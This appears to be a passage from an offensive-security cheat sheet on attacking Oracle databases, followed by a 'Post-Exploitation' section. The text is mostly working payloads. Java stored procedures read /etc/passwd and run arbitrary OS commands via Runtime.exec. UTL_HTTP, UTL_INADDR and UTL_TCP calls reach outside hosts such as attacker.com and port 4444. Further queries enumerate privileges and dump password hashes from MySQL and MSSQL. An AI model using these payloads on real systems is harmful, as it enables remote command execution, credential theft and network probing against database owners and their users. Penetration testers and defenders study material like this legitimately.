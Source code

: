#### Oracle

```sql
# File operations via Java
BEGIN
  DBMS_JAVA.endsession;
  EXECUTE IMMEDIATE 'create or replace and resolve java source named "FileReader" as
  import java.io.*;
  public class FileReader {
    public static String readFile(String filename) throws Exception {
      BufferedReader br = new BufferedReader(new FileReader(filename));
      String output = "";
      String line;
      while((line=br.readLine())!=null) { output += line + "\n"; }
      return output;
    }
  }';
END;
/
SELECT DBMS_JAVA.runjava('FileReader.readFile("/etc/passwd")') FROM dual;

# Network operations
SELECT UTL_HTTP.REQUEST('http://10.10.10.10/') FROM dual;  # Make HTTP request
SELECT UTL_INADDR.GET_HOST_ADDRESS('attacker.com') FROM dual;  # DNS lookup
SELECT UTL_TCP.AVAILABLE('10.10.10.10', 4444) FROM dual;     # Port scan

# Command execution via Java
BEGIN
  DBMS_JAVA.endsession;
  EXECUTE IMMEDIATE 'create or replace and resolve java source named "Shell" as
  public class Shell {
    public static String runCmd(String args) throws java.io.IOException {
      return new java.util.Scanner(Runtime.getRuntime().exec(args).getInputStream()).useDelimiter("\\A").next();
    }
  }';
END;
/
SELECT DBMS_JAVA.runjava('Shell.runCmd("whoami")') FROM dual;

# Privilege escalation
SELECT * FROM USER_ROLE_PRIVS;          # List current user privileges
SELECT * FROM DBA_ROLE_PRIVS;           # List all role privileges
SELECT * FROM ALL_TAB_PRIVS;            # List table privileges
```

## Post-Exploitation

### Enumerate Database Users

```sql
SELECT user,password FROM mysql.user;
SELECT name,password_hash FROM sys.sql_logins;
```
